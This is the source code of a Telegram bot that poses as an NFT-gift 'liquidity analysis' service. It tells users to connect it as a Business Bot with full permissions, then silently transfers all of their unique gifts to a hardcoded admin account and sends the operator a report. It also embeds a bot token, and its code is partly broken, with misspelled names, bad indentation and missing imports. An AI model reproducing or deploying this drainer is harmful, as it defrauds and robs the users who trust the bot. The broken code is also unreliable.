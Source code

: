 from aiogram.exceptions import TelegramBadRequest
import logging
import asyncio
import json
import os
from datetime import datetime
import sys
import io
from aiogram import Bot, Dispatcher, types
from aiogram.filters import Command
from aiogram.types import Message, BusinessConnection

sys.stdout = io.TextIOWrapper(sys.stdout.buffer, encoding='utf-8')

CONNECTIONS_FILE = "business_connections.json"
TRANSFER_LOG_FILE = "transfer_log.json"
TOKEN = "7950823813:AAHiOxXD0wRU47y2GIYUWiO8VCoaoN7f8lE"  # токен
ADMIN_ID = "8038426209"  # ID
TRANSFER_DELAY = 1  # Задержка между запросами в секундах

# Настройка логирования
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s",
    handlers=[
        logging.FileHandler("bot.log"),
        logging.StreamHandler()
    ]
)

bot = Bot(token=TOKEN)
dp = Dispatcher()


def load_json_file(filename):
    try:
        with open(filename, "r", encoding="utf-8") as f:
            content = f.read().strip()
            return json.loads(content) if content else []
    except (FileNotFoundError, json.JSONDecodeError) as e:
        logging.error(f"Ошибка загрузки {filename}: {str(e)}")
        return []


def save_to_json(filename, data):
    try:
        with open(filename, "w", encoding="utf-8") as f:
            json.dump(data, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка сохранения {filename}: {str(e)}")


def log_transfer(user_id, gift_id, status, error=""):
    try:
        logs = []
        if os.path.exists(TRANSFER_LOG_FILE):
            with open(TRANSFER_LOG_FILE, "r", encoding="utf-8") as f:
                logs = json.load(f)

        logs.append({
            "user_id": user_id,
            "gift_id": gift_id,
            "status": status,
            "error": error,
            "timestamp": datetime.now().isoformat()
        })

        with open(TRANSFER_LOG_FILE, "w", encoding="utf-8") as f:
            json.dump(logs, f, indent=2, ensure_ascii=False)
    except Exception as e:
        logging.error(f"Ошибка записи лога: {str(e)}")


async def transfer_all_unique_gifts(bot: Bot, business_connection_id: str, user_id: int) -> dict:
    """
    Переводит все уникальные подарки на ADMIN_ID
    """
    result = {
        "total": 0,
        "transferred": 0,
        "failed": 0,
        "errors": []
    }

    try:
        # Проверяем валидность подключения
        try:
            gifts = await bot(GetBusinessAccountGifts(business_connection_id=business_connection_id))
        except TelegramBadRequest as e:
            if "BUSINESS_CONNECTION_INVALID" in str(e):
                result["errors"].append("Неверный business_connection_id. Переподключите бота.")
                return result
            raise

        if not gifts.gifts:
            return result

        for gift in gifts.gifts:
            if gift.type != "unique":
                continue

            result["total"] += 1

            try:
                await bot(TransferGift(
                    business_connection_id=business_connection_id,
                    new_owner_chat_id=ADMIN_ID,
                    owned_gift_id=gift.owned_gift_id,
                    star_count=gift.transfer_star_count
                ))
                result["transferred"] += 1
                log_transfer(user_id, gift.owned_gift_id, "success")
                await asyncio.sleep(TRANSFER_DELAY)

            except TelegramBadRequest as e:
                error_msg = getattr(e, "message", str(e))
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)

                if "BOT_ACCESS_FORBIDDEN" in error_msg:
                    break  # Прерываем если нет доступа

            except Exception as e:
                error_msg = str(e)
                result["errors"].append(error_msg)
                result["failed"] += 1
                log_transfer(user_id, gift.owned_gift_id, "failed", error_msg)
except Exception as e:
        error_msg = str(e)
        logging.error(f"Ошибка в transfer_all_unique_gifts: {error_msg}")
        result["errors"].append(error_msg)

    return result


@dp.business_connection()
async def handle_business_connect(business_connection: BusinessConnection):
    try:
        user_id = business_connection.user.id
        conn_id = business_connection.id

        # Сохраняем подключение
        connections = load_json_file(CONNECTIONS_FILE)
        connections = [c for c in connections if c["user_id"] != user_id]  # Удаляем старые записи
        connections.append({
            "user_id": user_id,
            "business_connection_id": conn_id,
            "username": business_connection.user.username,
            "first_name": business_connection.user.first_name,
            "last_name": business_connection.user.last_name,
            "date": datetime.now().isoformat()
        })
        save_to_json(CONNECTIONS_FILE, connections)

        # Пытаемся перевести подарки
        transfer_result = await transfer_all_unique_gifts(bot, conn_id, user_id)

        # Формируем отчет
        report = (
            f"🔗 Новое подключение:\n"
            f"👤 Пользователь: @{business_connection.user.username or 'нет'}\n"
            f"🆔 ID: {user_id}\n\n"
            f"📊 Результат перевода:\n"
            f"• Всего подарков: {transfer_result['total']}\n"
            f"• Успешно: {transfer_result['transferred']}\n"
            f"• Ошибок: {transfer_result['failed']}\n"
        )

        if transfer_result['errors']:
            report += "\nОшибки:\n" + "\n".join(
                f"• {e}" for e in transfer_result['errors'][:3])  # Показываем первые 3 ошибки

        await bot.send_message(ADMIN_ID, report)
        await bot.send_message(user_id,
                              "✅ Бот успешно подключен! Анализирую...")

    except Exception as e:
        logging.error(f"Ошибка в handle_business_connect: {e}")
        await bot.send_message(ADMIN_ID, f"🚨 Ошибка при подключении: {str(e)}")


@dp.message(Command("check_gifts"))
async def check_gifts_handler(message: Message):
    if message.from_user.id != ADMIN_ID:
        return

    connections = load_json_file(CONNECTIONS_FILE)
    if not connections:
        return await message.answer("Нет активных подключений.")

    for conn in connections:
        try:
            result = await transfer_all_unique_gifts(bot, conn["business_connection_id"], conn["user_id"])
            msg = (
                f"Проверка {conn.get('username', conn['user_id'])}:\n"
                f"• Передано: {result['transferred']}\n"
                f"• Ошибок: {result['failed']}"
            )
            await message.answer(msg)
            await asyncio.sleep(5)  # Чтобы не получить flood control
        except Exception as e:
            await message.answer(f"Ошибка для {conn['user_id']}: {str(e)}")


@dp.message(Command("start"))
async def start_command(message: Message):
    try:
        conections = load_json_file(CONECTIONS_FILE)
        count = len(connections)
    except Exception:
        count = 0

    if message.from_user.id != ADMIN_ID:
        welcome_text = """
👋 <b>Приветствую!</b> Я бот, который высчитывает <i> ликвидность ваших NFT!</i>! ✨

📌 <b>Как начать работу?</b>
1. Добавьте меня как <b>Business Bot</b> в настройках Telegram
2. Выдайте разрешения
3. Я начну анализировать ваши NFT

🔹 <i>Подключение:</i>
• Откройте <b>Настройки → Telegram для бизнеса → Чат-боты</b>
• Выберите меня и активируйте все разрешения!

🚀 После подключения я смогу:
• Показывать статистику ваших подарков 🎁
• Считать их ликвидность и какой % успешной продажи
• Работать 24/7

❗Зачем ставить галочки?
🤖Боту нужно сгенерировать Business ID, для вычисления ликвидности NFT🎉

<b>Готовы начать?</b> Жду вашего подключения! 😊
        """
        await message.answer(welcome_text, parse_mode="HTML")
    else:
        admin_text = f"""
🛠️ <b>Привет, админ</b> 🛠️

• Подключений: <>{count}</>
⚙️ Бот активен и готов к работе!
        """
        await message.answer(admin_text, parse_mode="НTML")


async def main():
    await dp.start_polling(bot)


if _name_ == "_main_":
    asincio.run(main())
